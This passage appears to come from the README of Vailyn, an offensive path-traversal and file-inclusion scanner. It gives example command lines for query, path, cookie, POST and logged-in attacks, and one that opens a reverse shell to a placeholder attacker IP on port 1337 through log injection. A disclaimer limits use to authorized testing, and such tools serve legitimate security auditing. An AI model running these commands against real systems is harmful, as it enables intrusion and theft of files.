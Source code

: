 * Query attack, but I know a file `file.php` exists on exactly 2 levels above the inclusion point:
`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 leak dicts/files dicts/dirs -p file -i file.php -d 2 X X -P`
This will shorten the duration of Phase 1 very much, since its a targeted attack.

* Simple Path attack:
`$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs` --> `http://site.com/../INJECT`

* Path attack, but I need query parameters and tag:
`$ Vailyn -v "http://site.com/" -a 2 -p2 leak dicts/files dicts/dirs -Pi "?token=X#title"` --> `http://site.com/../INJECT?token=X#title`

* Simple Cookie attack:
`$ Vailyn -v "http://site.com/cookiemonster.php" -a 3 -p2 leak dicts/files dicts/dirs`
Will fetch cookies and you can select cookie you want to poison

* POST Plain Attack:
`$ Vailyn -v "http://site.com/download.php" -a 4 -p2 leak dicts/files dicts/dirs -p "DATA1=xx&DATA2=INJECT"`
will infect DATA2 with the payload

* POST JSON Attack:
`$ Vailyn -v "http://site.com/download.php" -a 5 -p2 leak dicts/files dicts/dirs -p '{"file": "INJECT"}'`

* Attack, but target is behind login screen:
`$ Vailyn -v "http://site.com/" -a 1 -p2 leak dicts/files dicts/dirs -c "sessionid=foobar"`

* Attack, but I want a reverse shell on port 1337:
`$ Vailyn -v "http://site.com/download.php" -a 1 -p2 inject MY.IP.IS.XX 1337  # a high Phase 2 Depth is needed for log injection`
(will start a ncat listener for you if on Unix)

* Full automation in crawler mode:
`$ Vailyn -v "http://root-url.site" -a A` _you can also specify other args, like cookie, depths, lfi & lookup file here_ 

* Full automation, but Arjun needs `--stable`:
`$ Vailyn -v "http://root-url.site" -a A -s ANY`

### Demo

[![asciicast](https://asciinema.org/a/384813.svg)](https://asciinema.org/a/384813)
Vailyn's Crawler analyzing a damn vulnerable web application. LFI Wrappers are not enabled.

[GUI Demonstration (v2.2.1-5)](https://www.youtube.com/watch?v=rFlR_SHk9fc)

### Possible Issues

Found some false positives/negatives (or want to point out other bugs/improvements): please leave an issue!

### Code of Conduct

> Vailyn is provided as an offensive web application audit tool. It has built-in functionalities which can reveal potential vulnerabilities in web applications, which could be exploited maliciously.
>
> **THEREFORE, NEITHER THE AUTHOR NOR THE CONTRIBUTORS ARE RESPONSIBLE FOR ANY MISUSE OR DAMAGE DUE TO THIS TOOLKIT.**
>
> By using this software, the user obliges to follow their local laws, to not attack someone else's system without explicit permission from the owner, or with malicious intent.
>
> In case of an infringement, only the end user who committed it is accountable for their actions.
